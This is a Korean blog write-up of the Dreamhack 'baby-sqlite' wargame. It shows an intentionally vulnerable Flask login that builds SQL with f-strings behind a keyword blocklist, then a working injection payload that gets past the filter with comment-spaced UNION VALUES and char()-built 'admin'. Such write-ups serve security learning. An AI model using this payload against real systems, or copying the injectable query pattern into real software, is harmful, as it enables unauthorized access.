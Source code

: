 ```yaml
---
layout: post
title: "[Dreamhack] baby-sqlite WriteUp"
date: 2025-01-12
author: GiuNash
tags: [Dreamhack, Web]
comments: true
toc: true
pinned: true
---
```


## Code
```python
#!/usr/bin/env python3
from flask import Flask, request, render_template, make_response, redirect, url_for, session, g
import urllib
import os
import sqlite3

app = Flask(__name__)
app.secret_key = os.urandom(32)
from flask import _app_ctx_stack

DATABASE = 'users.db'

def get_db():
    top = _app_ctx_stack.top
    if not hasattr(top, 'sqlite_db'):
        top.sqlite_db = sqlite3.connect(DATABASE)
    return top.sqlite_db


try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'


@app.route('/')
def index():
    return render_template('index.html')


@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')

    uid = request.form.get('uid', '').lower()
    upw = request.form.get('upw', '').lower()
    level = request.form.get('level', '9').lower()

    sqli_filter = ['[', ']', ',', 'admin', 'select', '\'', '"', '\t', '\n', '\r', '\x08', '\x09', '\x00', '\x0b', '\x0d', ' ']
    for x in sqli_filter:
        if uid.find(x) != -1:
            return 'No Hack!'
        if upw.find(x) != -1:
            return 'No Hack!'
        if level.find(x) != -1:
            return 'No Hack!'


    with app.app_context():
        conn = get_db()
        query = f"SELECT uid FROM users WHERE uid='{uid}' and upw='{upw}' and level={level};"
        try:
            req = conn.execute(query)
            result = req.fetchone()

            if result is not None:
                uid = result[0]
                if uid == 'admin':
                    return FLAG
        except:
            return 'Error!'
    return 'Good!'


@app.teardown_appcontext
def close_connection(exception):
    top = _app_ctx_stack.top
    if hasattr(top, 'sqlite_db'):
        top.sqlite_db.close()


if __name__ == '__main__':
    os.system('rm -rf %s' % DATABASE)
    with app.app_context():
        conn = get_db()
        conn.execute('CREATE TABLE users (uid text, upw text, level integer);')
        conn.execute("INSERT INTO users VALUES ('dream','cometrue', 9);")
        conn.commit()

    app.run(host='0.0.0.0', port=8001)
```

## 1. 문제 접근법

`level` 파라미터는 숫자형 데이터로 처리되어 쿼리에서 따옴표로 감싸지지 않았다. 

이를 이용해 SQL Injection을 수행할 수 있다고 판단했다.  

또한, 다음과 같은 제약 조건이 존재했다:

- `select`와 `admin` 같은 문자열이 필터링됨.
  
- 공백은 필터링되어 사용이 불가능함.

이를 해결하기 위해 다음과 같은 우회 기법을 사용했다:

- 공백은 `/ ** /`로 치환.

- `admin`은 `char()`와 `||` 연산자를 이용해 문자열 생성.

- `select`는 `UNION VALUES`를 사용해 우회.

이러한 분석을 바탕으로 SQL Injection 공격을 설계했다.

---

## 2. 문제풀이

1. **SQL Injection 가능성 확인**  
   소스 코드를 분석한 결과, 로그인 로직에서 실행되는 SQL 쿼리는 다음과 같았다:
   ```sql
   SELECT uid FROM users WHERE uid='{uid}' and upw='{upw}' and level={level};
   
여기서 level 필드는 숫자형으로 처리되어 따옴표로 감싸지지 않으므로 SQL Injection 공격에 적합했다.

### 필터링 분석 및 우회 전략

공백 우회: 공백은 / ** /로 대체.

select 우회: UNION VALUES 구문 사용.

admin 우회: char(0x61)||char(0x64)||char(0x6d)||char(0x69)||char(0x6e)으로 문자열 생성.

### Payload

```sql
uid=dream&upw=cometrue&level=123/**/union/**/values(char(0x61)||char(0x64)||char(0x6d)||char(0x69)||char(0x6e))
```

### Burp Suite를 이용한 공격 수행

Burp Suite를 이용해 HTTP 요청의 level 파라미터에 위 페이로드를 삽입.

플래그를 성공적으로 획득했다.
